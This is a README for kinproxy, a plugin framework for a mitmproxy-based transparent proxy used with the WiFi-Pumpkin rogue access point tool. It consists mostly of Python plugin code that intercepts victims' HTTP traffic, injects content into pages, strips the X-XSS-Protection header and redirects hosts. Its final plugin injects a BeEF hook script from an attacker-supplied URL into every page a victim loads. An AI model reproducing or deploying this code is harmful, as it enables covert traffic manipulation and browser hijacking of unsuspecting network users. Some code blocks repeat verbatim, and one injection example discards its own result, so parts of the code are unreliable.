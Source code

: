 # kinproxy

my implements transparent proxies (mitmproxy) can use to intercept and manipulate HTTP traffic modifying requests and responses.

## Instalation

``` sh
$ sudo apt-get update
$ sudo apt-get install -y python-pip libffi-dev
$ libssl-dev libxml2-dev libxslt1-dev zlib1g-dev
$ sudo apt-get install -y python-qt4
$ sudo apt-get install -y python-dev git
$ sudo apt-get install -y libpcap-dev
$ sudo pip install -r requirements.txt
$ sudo pip install mitmproxy==0.18.2
```

 Transparent proxies(mitmproxy) that you can use to intercept and manipulate HTTP traffic modifying requests and responses, that allow to inject javascripts into the targets visited.  You can easily implement a module to inject data into pages creating a python file in directory "plugins/" automatically will be loaded.
#### Plugins Example Dev

 ``` python
from mitmproxy.models import decoded # for decode content html
from plugins.extension.plugin import PluginTemplate

class Nameplugin(PluginTemplate):
    meta = {
        'Name'      : 'Nameplugin',
        'Version'   : '1.0',
        'Description' : 'Brief description of the new plugin',
        'Author'    : 'by dev'
    }
    def __init__(self):
        for key,value in self.meta.items():
            self.__dict__[key] = value
        # if you want set arguments check refer wiki more info.
        self.ConfigParser = False # No require arguments

    def request(self, flow):
        print flow.__dict__
        print flow.request.__dict__
        print flow.request.headers.__dict__ # request headers
        host = flow.request.pretty_host # get domain on the fly requests
        versionH = flow.request.http_version # get http version

        # get redirect domains example
        # pretty_host takes the "Host" header of the request into account,
        if flow.request.pretty_host == "example.org":
            flow.request.host = "mitmproxy.org"

        # get all request Header example
        self.send_output.emit("\n[{}][HTTP REQUEST HEADERS]".format(self.Name))
        for name, valur in flow.request.headers.iteritems():
            self.send_output.emit('{}: {}'.format(name,valur))

        print flow.request.method # show method request
        # the model printer data
        self.send_output.emit('[NamePlugin]:: this is model for save data logging')

    def response(self, flow):
        print flow.__dict__
        print flow.response.__dict__
        print flow.response.headers.__dict__ #convert headers for python dict
        print flow.response.headers['Content-Type'] # get content type

        #every HTTP response before it is returned to the client
        with decoded(flow.response):
            print flow.response.content # content html
            flow.response.content.replace('</body>','<h1>injected</h1></body>') # replace content tag

        del flow.response.headers["X-XSS-Protection"] # remove protection Header

        flow.response.headers["newheader"] = "foo" # adds a new header
        #and the new header will be added to all responses passing through the proxy
```

### Overview
First of all write the import plugin tamplate
``` python
from plugins.extension.plugin import PluginTemplate
```
the basic plugin example:
``` python
from plugins.extension.plugin import PluginTemplate


class Example(PluginTemplate):
    meta = {
        'Name'      : 'exampleplugin',
        'Version'   : '1.0',
        'Description' : 'description of plugin',
        'Author'    : 'by dev Name',
    }

    def __init__(self):
        for key,value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = False # requeire args

    def request(self, flow): # get all request HTTP traffic
        pass

    def response(self, flow): # get all response HTTP traffic
        pass
```

### Modify Packets
Simple fuctions that just adds a header to every request..
 ``` python
    def response(self, flow):
        flow.response.headers["newheader"] = "foo" # adds a new header
```

example from mitmproxy how to redirect connections (IP spoofing)
 ``` python
    def request(self, flow):
        if flow.client_conn.ssl_established:
            flow.request.scheme = "https"
            sni = flow.client_conn.connection.get_servername()
            port = 443
        else:
            flow.request.scheme = "http"
            sni = None
            port = 80

        host_header = flow.request.pretty_host
        m = parse_host_header.match(host_header)
        if m:
            host_header = m.group("host").strip("[]")
            if m.group("port"):
                port = int(m.group("port"))

        flow.request.host = sni or host_header
        flow.request.port = port
```

another example how to rewrite packet in real time
 ``` python
from mitmproxy.models import decoded # for decode content html
from plugins.extension.plugin import PluginTemplate

class Nameplugin(PluginTemplate):
    meta = {
        'Name'      : 'Nameplugin',
        'Version'   : '1.0',
        'Description' : 'Brief description of the new plugin',
        'Author'    : 'by dev'
    }
    def __init__(self):
        for key,value in self.meta.items():
            self.__dict__[key] = value
        # if you want set arguments check refer wiki more info.
        self.ConfigParser = False # No require arguments

    def request(self, flow):
        print flow.__dict__
        print flow.request.__dict__
        print flow.request.headers.__dict__ # request headers
        host = flow.request.pretty_host # get domain on the fly requests
        versionH = flow.request.http_version # get http version

        # get redirect domains example
        # pretty_host takes the "Host" header of the request into account,
        if flow.request.pretty_host == "example.org":
            flow.request.host = "mitmproxy.org"

        # get all request Header example
        self.send_output.emit("\n[{}][HTTP REQUEST HEADERS]".format(self.Name))
        for name, valur in flow.request.headers.iteritems():
            self.send_output.emit('{}: {}'.format(name,valur))

        print flow.request.method # show method request
        # the model printer data
        self.send_output.emit('[NamePlugin]:: this is model for save data logging')

    def response(self, flow):
        print flow.__dict__
        print flow.response.__dict__
        print flow.response.headers.__dict__ #convert headers for python dict
        print flow.response.headers['Content-Type'] # get content type

        #every HTTP response before it is returned to the client
        with decoded(flow.response):
            print flow.response.content # content html
            flow.response.content.replace('</body>','<h1>injected</h1></body>') # replace content tag

        del flow.response.headers["X-XSS-Protection"] # remove protection Header

        flow.response.headers["newheader"] = "foo" # adds a new header
        #and the new header will be added to all responses passing through the proxy
```

### Logging
if you want to save data(pumpkin-prxoy.log) in your plugin, just use self.send_output.emit('msg here')
 ``` python
    def request(self, flow):
        self.send_output.emit('[example]:: this is hellow WiFi-Pumpkin')
```
### How to add argumments
Now, if you want to add argumments in proxy.ini, you need to add in directory "core/pumpkinProxy.ini" the key (exampleplugin and set_exampleplugin).

* exampleplugin key is the option checkbox to change and enable or disable plugin
* set_exampleplugin this is key for search all argumments in Settings option.
![plugin_key](http://i.imgur.com/oSvErrZ.png)

### Example from WiFi-Pumpkin with Argummets
``` python
class beef(PluginTemplate):
    meta = {
        'Name'      : 'beef',
        'Version'   : '1.0',
        'Description' : 'this module proxy inject hook beef api url.[Hook URL]',
        'Author'    : 'Marcos Nesster'
    }
    def __init__(self):
        for key,value in self.meta.items():
            self.__dict__[key] = value
        self.ConfigParser = True
        self.urlhook = self.config.get_setting('set_beef','hook')

    def request(self, flow):
        pass

    def response(self,flow):
        with decoded(flow.response):  # Remove content encoding (gzip, ...)
            html = BeautifulSoup(flow.response.content)
            """
            # To Allow CORS
            if "Content-Security-Policy" in flow.response.headers:
                del flow.response.headers["Content-Security-Policy"]
            """
            if html.body:
                script = html.new_tag(
                    'script',
                    src=self.urlhook)
                html.body.insert(0, script)
                flow.response.content = str(html)
                self.send_output.emit("[{}] Injected BeFF url hook...".format(self.Name))
```
